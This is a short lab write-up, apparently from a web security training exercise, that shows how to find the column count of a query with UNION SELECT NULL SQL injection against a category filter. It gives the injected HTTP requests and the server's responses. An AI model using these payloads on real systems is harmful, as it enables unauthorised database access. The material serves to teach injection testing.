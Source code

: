 ### Lab: SQL injection UNION attack, determining the number of columns returned by the query

![website](website.png)

Clicking on the `Accessories` category results in the following HTTP request.

```
GET /filter?category=Accessories HTTP/1.1
...
```

So what happens if we add a `‘UNION+SELECT+NULL--`?

```
- Request -
GET /filter?category=Accessories'+UNION+SELECT+NULL-- HTTP/1.1
...

- Response -
HTTP/1.1 500 Internal Server Error
```

What if we add another `NULL`?

```
- Request -
GET /filter?category=Accessories'+UNION+SELECT+NULL,NULL-- HTTP/1.1

- Response -
HTTP/1.1 500 Internal Server Error
```

How about another `NULL`?

```
- Request -
GET /filter?category=Accessories'+UNION+SELECT+NULL,NULL,NULL-- HTTP/1.1

- Response -
HTTP/1.1 200 OK
```

Therefore, the number of columns in the table is 3.
